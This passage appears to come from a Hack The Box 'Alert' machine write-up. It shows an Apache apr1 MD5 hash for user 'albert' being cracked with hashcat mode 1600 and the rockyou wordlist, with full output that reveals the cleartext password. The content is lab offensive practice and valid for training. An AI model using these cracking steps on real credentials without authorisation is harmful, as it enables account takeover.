 And luckily we received a `hash`!

```c
<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
</pre>
```

### Cracking the Hash

We threw the `hash` into a file and cracked it using `mode 1600` within `hashcat` to retrieve the `password` for `albert`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Alert/files]
└─$ cat hash 
$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Alert/files]
└─$ hashcat -m 1600 -a 0 hash /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i9-10900 CPU @ 2.80GHz, 2917/5899 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/:manchesterunited    
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5 (APR))
Hash.Target......: $apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
Time.Started.....: Sat Nov 23 22:30:15 2024 (0 secs)
Time.Estimated...: Sat Nov 23 22:30:15 2024 (0 secs)
Kernel.Feature...: Pure Kernel
```